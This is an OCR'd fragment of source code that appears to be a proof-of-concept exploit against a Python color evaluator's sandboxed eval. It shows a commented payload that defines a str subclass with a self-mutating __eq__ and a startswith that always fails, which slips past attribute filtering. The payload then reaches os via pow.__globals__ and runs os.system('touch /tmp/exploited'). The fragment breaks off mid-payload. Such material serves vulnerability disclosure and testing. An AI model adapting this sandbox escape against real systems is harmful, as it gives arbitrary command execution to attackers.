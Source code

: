     # THE INJECTED PYTHON CODE THAT IS PASSED TO THE COLOR EVALUATOR
    
    #[
    
    #    [
    
    #        getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited')
    
    #        for Word in [
    
    #            orgTypeFun(
    
    #                'Word',
    
    #                (str,),
    
    #                {
    
    #                    'mutated': 1,
    
    #                    'startswith': lambda self, x: False,
    
    #                    '__eq__': lambda self, x: self.mutate()
    
    #                    and self.mutated < 0
    
    #                    and str(self) == x,
    
    #                    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
    
    #                    '__hash__': lambda self: hash(str(self)),
    